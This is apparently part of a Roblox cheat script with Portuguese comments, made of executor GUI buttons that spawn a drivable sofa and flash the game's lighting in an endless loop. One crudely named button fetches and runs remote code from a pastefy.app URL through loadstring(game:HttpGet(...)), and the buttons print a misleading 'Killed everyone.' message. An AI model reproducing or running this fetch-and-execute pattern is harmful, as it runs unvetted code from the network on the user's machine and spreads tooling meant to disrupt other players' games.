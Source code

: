             game:GetService("RunService").Stepped:Connect(function(_, deltaTime)
                if seat.Occupant then
                    local humanoid = seat.Occupant
                    local moveDir = humanoid.MoveDirection

                    local rotation = 0
                    if moveDir.Z < 0 then
                        sofa:SetPrimaryPartCFrame(sofa.PrimaryPart.CFrame * CFrame.new(0, 0, -speed * deltaTime))
                    elseif moveDir.Z > 0 then
                        sofa:SetPrimaryPartCFrame(sofa.PrimaryPart.CFrame * CFrame.new(0, 0, speed * deltaTime))
                    end
                    if moveDir.X < 0 then
                        rotation = turnSpeed * deltaTime
                    elseif moveDir.X > 0 then
                        rotation = -turnSpeed * deltaTime
                    end

                    sofa:SetPrimaryPartCFrame(sofa.PrimaryPart.CFrame * CFrame.Angles(0, rotation, 0))
                end
            end)
        end 

        -- Spawnando o sofá quando o jogador entra no jogo
        spawnSofa()
    end,
})



tr1Section:Button({
    Name = "BUGAR O CEU",
    Callback = function()
        print("Killed everyone.")
        local Lighting = game:GetService("Lighting")

        -- Criando um efeito de piscar no céu
        while true do
            -- Gera uma cor aleatória
            local randomColor = Color3.fromRGB(math.random(0, 255), math.random(0, 255), math.random(0, 255))

            -- Aplica a cor ao Sky
            if Lighting:FindFirstChild("Sky") then
                Lighting.Ambient = randomColor
                Lighting.OutdoorAmbient = randomColor
            end

            -- Pequena espera antes da próxima piscada
            wait(0.5)
        end

    end,
})

tr1Section:Button({
    Name = "BATER UMA(LA ELE)",
    Callback = function()
        print("Killed everyone.")
        --Made by Muscle_legends2021 (Gio)
--YouTube: GioBolqvi
--Got skidded TWICE, Aquamatrix and SpiderScriptRB [fùck skidders]
--might not work on low unc level executors
loadstring(game:HttpGet("https://pastefy.app/wa3v2Vgm/raw"))()
    end,
})
